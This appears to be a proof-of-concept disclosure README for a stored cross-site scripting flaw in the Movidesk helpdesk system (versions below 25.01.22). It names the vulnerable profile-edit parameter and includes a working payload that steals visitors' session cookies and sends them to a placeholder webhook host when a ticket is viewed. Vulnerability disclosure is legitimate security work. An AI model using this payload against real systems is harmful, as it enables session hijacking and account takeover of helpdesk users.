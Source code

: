 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Account/EditProfile page in Username parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Account/EditProfile

---

## Reference

https://www.movidesk.com/
